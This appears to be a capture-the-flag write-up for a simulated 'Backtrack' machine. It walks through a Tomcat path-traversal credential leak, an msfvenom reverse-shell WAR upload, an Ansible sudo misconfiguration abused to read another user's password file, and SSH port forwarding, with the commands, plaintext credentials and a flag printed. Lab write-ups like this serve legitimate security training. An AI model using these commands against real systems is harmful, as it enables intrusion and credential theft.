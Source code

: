 Objective

The purpose of this project is to identify and exploit security vulnerabilities in a simulated Capture The Flag (CTF) environment named "Backtrack". The goal is to gain elevated access through multiple user accounts by leveraging misconfigurations, weak credentials, and insecure services.

Initial Access: Exploiting Tomcat

We discovered that Apache Tomcat is exposed on port 8080. Using a path traversal vulnerability, we accessed the tomcat-users.xml configuration file and extracted valid credentials:

curl --path-as-is http://backtrack.thm:8888/../../../../../../../../../../../../../../../../../../../../opt/tomcat/conf/tomcat-users.xml

Output:

<user username="tomcat" password="OPx52k53D8OkTZpx4fr" roles="manager-script"/>

We then used these credentials to upload a reverse shell in .war format to the Tomcat Manager:

msfvenom -p java/shell_reverse_tcp LHOST=10.10.129.161 LPORT=1234 -f war -o pwn.war
curl -v -u tomcat:OPx52k53D8OkTZpx4fr --upload-file pwn.war "http://backtrack.thm:8080/manager/text/deploy?path=/pwn&update=true"

We received a reverse shell and executed the following:

cat /opt/tomcat/flag1.txt

Flag 1:

THM{823e4e40ead9683b06a8194eab01cee8}

Privilege Escalation via Ansible Misconfiguration

We ran sudo -l and found the following:

sudo -l

Output:

User tomcat may run the following commands on Backtrack:
    (wilbur) NOPASSWD: /usr/bin/ansible-playbook /opt/test_playbooks/*.yml

Using this, we created a custom playbook to read a file owned by wilbur:

echo '- hosts: localhost
  tasks:
    - name: Read wilbur secrets
      shell: cat /home/wilbur/.just_in_case.txt > /tmp/wilbur_secret.txt' > /tmp/read_wilbur.yml

sudo -u wilbur /usr/bin/ansible-playbook /tmp/read_wilbur.yml
cat /tmp/wilbur_secret.txt

Output:

wilbur:mYe317Tb9qTNrWFND7KF

We successfully retrieved the password for the user wilbur.

Switching to Wilbur User

su - wilbur

Password:

mYe317Tb9qTNrWFND7KF

Exploring Wilbur’s Home Directory

ls
cat from_orville.txt

Contents:

email : orville@backtrack.thm
password : W34r3B3773r73nP3x3l$

This reveals credentials for accessing a local web application.

Port Forwarding via SSH Tunnel

To access the web app (running locally on port 3000), we used SSH tunneling:

ssh -L 9999:127.0.0.1:3000 wilbur@backtrack.thm

This forwards localhost:3000 on the target to port 9999 on our machine. You can now access the app via:

http://localhost:9999

Use the credentials:

Email: orville@backtrack.thm

Password: W34r3B3773r73nP3x3l$

Summary So Far

Gained initial access via Tomcat upload.

Escalated to read wilbur's secrets using Ansible.

Switched to wilbur with extracted credentials.

Discovered web app credentials.

Forwarded the local port to analyze the web application.

Next Steps:

Analyze the web app for further vulnerabilities (LFI, RCE, etc.).

Explore escalation from wilbur or pivoting to orville.

Document additional flags found.

This project highlights the importance of proper file permissions, limited user privileges, and secure service configurations.

